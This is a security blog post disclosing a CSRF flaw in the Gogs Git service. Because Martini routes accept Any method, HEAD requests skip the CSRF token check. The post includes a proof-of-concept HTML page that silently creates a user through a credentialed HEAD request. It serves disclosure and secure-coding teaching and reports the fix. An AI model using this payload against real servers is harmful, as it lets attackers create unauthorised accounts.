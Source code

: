 ```yaml
---
date: 2014-07-01 04:15:48 GMT
slug: csrf-in-gogs-via-head
tags: Go,csrf
title: CSRF in Gogs via HEAD
author: Tom Steele
type: text
---
```


I'm a big fan of [Go](http://golang.org/), so I'm always on the look out for emerging projects within the community. One such project is [Gogs](http://gogs.io/), an open source self-hosted Git service. This is a pretty ambitious effort, and  definitely a project to watch. While looking over some of the code I identified a [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) ("CSRF") vulnerability that presented itself in a not so common manner.

CSRF is a technique that exploits a server's inherit trust in the user's browser. In practice an attacker will host a malicious site and submit requests on behalf of the user. There a [many techniques](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript) to do this, far too many to discuss here, but the results can be [devastating](http://disconnected.io/2014/03/18/how-i-hacked-your-router/).

Preventing CSRF is fairly straight forward, one common way is to use a double-submit token. Where a random value is stored in the user's session or a separate cookie, and when a request to change a resource is submitted, it is compared to a form value or header. This is the method used by Gogs. Code for token generation and extraction is [here](https://github.com/gogits/gogs/blob/99713e1180ad149faf6442bba311fec6e501aa00/modules/middleware/context.go#L245-L270). And we can see [here](https://github.com/gogits/gogs/blob/e323604d781268a39febced13a2fb6caae2d126c/modules/middleware/auth.go#L37-L40) that all POST requests must have a valid token, or a 403 is returned.

This is valid because applications should not change state via the GET method, and other methods including DELETE, PUT, PATCH, etc. will be "preflighted" using the OPTIONS method to determine if the request if safe to send. A great resource for the wonder that is CORS rules is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS). As an aside, beware of only protecting POST routes, because [sometimes](http://blog.nodesecurity.io/post/60555138201/bypass-connect-csrf-protection-by-abusing), it's not enough. OK, now that were all experts, on with the vulnerability.

Gogs uses [Martini](https://github.com/go-martini/martini), which supports Sinatra like routing. We can see routes for managing users below.

~~~~~go
// Taken form https://github.com/gogits/gogs/blob/45462662e9bdb001f1cf3d4ca0e4d679757c7642/web.go

m.Group("/admin/users", func(r martini.Router) {
    r.Any("/new", bindIgnErr(auth.RegisterForm{}), admin.NewUser)
    r.Any("/:userid", bindIgnErr(auth.AdminEditUserForm{}), admin.EditUser)
    r.Any("/:userid/delete", admin.DeleteUser)
}, adminReq)
~~~~~

We see that `r` is the router variable and is using the `Any` method to setup routing. `Any` works how you probably expect, it accepts any method. Let's focus on the `"/new"` route, which is ued to create a new user.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/d0e6a4c25acc3414f6d0f93cc50e6dcb41111c19/routers/admin/user.go

func NewUser(ctx *middleware.Context, form auth.RegisterForm) {
    ctx.Data["Title"] = "New Account"
    ctx.Data["PageIsUsers"] = true

    if ctx.Req.Method == "GET" {
        ctx.HTML(200, "admin/users/new")
        return
    }

    if form.Password != form.RetypePasswd {
        ctx.Data["HasError"] = true
        ctx.Data["Err_Password"] = true
        ctx.Data["Err_RetypePasswd"] = true
        ctx.Data["ErrorMsg"] = "Password and re-type password are not same"
        auth.AssignForm(form, ctx.Data)
    }

    if ctx.HasError() {
        ctx.HTML(200, "admin/users/new")
        return
    }

    u := &models.User{
        Name:     form.UserName,
        Email:    form.Email,
        Passwd:   form.Password,
        IsActive: true,
    }

    var err error
    if u, err = models.RegisterUser(u); err != nil {
        switch err {
        case models.ErrUserAlreadyExist:
            ctx.RenderWithErr("Username has been already taken", "admin/users/new", &form)
        case models.ErrEmailAlreadyUsed:
            ctx.RenderWithErr("E-mail address has been already used", "admin/users/new", &form)
        case models.ErrUserNameIllegal:
            ctx.RenderWithErr(models.ErrRepoNameIllegal.Error(), "admin/users/new", &form)
        default:
            ctx.Handle(200, "admin.user.NewUser", err)
        }
        return
    }

    log.Trace("%s User created by admin(%s): %s", ctx.Req.RequestURI,
        ctx.User.LowerName, strings.ToLower(form.UserName))

    ctx.Redirect("/admin/users")
}
~~~~~

We see that if the method is GET, then it returns and renders the template containing a form to create a new user, and if not, it creates the user. We saw earlier that POST's are protected, and other methods will be preflighted, but if you're following closely and familiar with your CORS rules, you'll note that we didn't mention the HEAD method, which is not preflighted and does not require a token. Combine that with the behavior of the form parsing library, which treats query strings the same a payload and you have yourself CSRF.

An attacker can host the following to create a new user.

~~~~~html
<html>
    <head>
    <script>
      var http = new XMLHttpRequest();
      http.open('HEAD', 'http://your.git.computer/admin/users/new?username=badguy&email=badguy@evil.com&passwd=foobar&retypepasswd=foobar');
      http.withCredentials = true;
      http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      http.send();
    </script>
    </head>
    <body>
Hi
    </body>
</html>
~~~~~

The Gogs' development team was extremely responsive and fixed this within a day. To do this, they setup explicit routes and handlers for GET and POST methods, and removed all use of `ANY`. Not being explicit in what you're allowing from a user is the root of many vulnerabilities, and that is the lesson here, where possible only support what you're expecting and strictly validate all input.
